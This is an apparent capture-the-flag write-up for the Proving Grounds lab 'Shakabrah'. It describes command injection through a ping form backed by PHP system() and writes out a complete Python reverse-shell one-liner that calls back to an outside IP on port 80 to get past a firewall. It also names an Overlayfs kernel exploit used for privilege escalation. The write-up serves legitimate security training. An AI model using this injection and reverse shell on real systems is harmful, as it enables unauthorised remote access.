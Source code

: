 * * *
 ### LAB: SHAKABRAH
 ### PLATFORM: PROVING GROUNDS
* * *

### Enumeration:
- Rustscan's details

  ![image](https://github.com/SENSEIXENUS2/SENSEIXENUS2.github.io/assets/98669513/d4137a85-bd12-48cf-bdbe-8a90aefac3be)

- I did not fuzz for directories because the index page allows users to ping an ip address with the linux ping tool,I sensed that it
might be using the php `system() method`,we can use it to our advantage by closing the ping statement with a semicolon and executing a rev shell e.g `;ls`

 ![image](https://github.com/SENSEIXENUS2/SENSEIXENUS2.github.io/assets/98669513/3eed71ac-bfa3-46e0-9237-d02570cd72a9)

- Popping a rev shell was bit tough because the server filters connectionn on other ports,I had to pop a shell through via port 80 to bypass the firewall restriction
 `;python3 -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("192.168.45.214",80));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);import pty; pty.spawn("bash")'`

- Now we have stabilizd rev shell

  ![image](https://github.com/SENSEIXENUS2/SENSEIXENUS2.github.io/assets/98669513/81c2962b-0f7a-4659-b513-264aa01e7c1e)

 ### PRIVESC

 -  I was able to escalate privileges with the Overlayfs kernel exploit because of the vulnerable Ubuntu version

    ![image](https://github.com/SENSEIXENUS2/SENSEIXENUS2.github.io/assets/98669513/05756031-0299-44c7-b6b0-09d64ce4cc95)

- 
  

